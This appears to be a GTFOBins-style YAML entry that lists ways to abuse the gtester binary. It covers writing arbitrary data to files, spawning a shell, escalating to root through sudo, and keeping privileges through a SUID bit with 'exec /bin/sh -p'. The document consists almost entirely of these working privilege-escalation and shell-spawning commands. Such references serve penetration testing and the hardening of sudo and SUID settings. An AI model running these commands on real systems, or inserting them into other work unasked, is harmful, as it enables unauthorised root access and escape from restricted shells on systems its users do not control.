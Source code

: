 ```yaml
---
functions:
  file-write:
    - description: Data to be written appears in an XML attribute in the output file (`<testbinary path="DATA">`).
      code: |
        LFILE=file_to_write
        gtester "DATA" -o $LFILE
  shell:
    - code: |
        TF=$(mktemp)
        echo '#!/bin/sh' > $TF
        echo 'exec /bin/sh -p 0<&1' >> $TF
        chmod +x $TF
        gtester -q $TF
  sudo:
    - code: |
        TF=$(mktemp)
        echo '#!/bin/sh' > $TF
        echo 'exec /bin/sh 0<&1' >> $TF
        chmod +x $TF
        sudo gtester -q $TF
  suid:
    - code: |
        TF=$(mktemp)
        echo '#!/bin/sh -p' > $TF
        echo 'exec /bin/sh -p 0<&1' >> $TF
        chmod +x $TF
        sudo gtester -q $TF
---
```

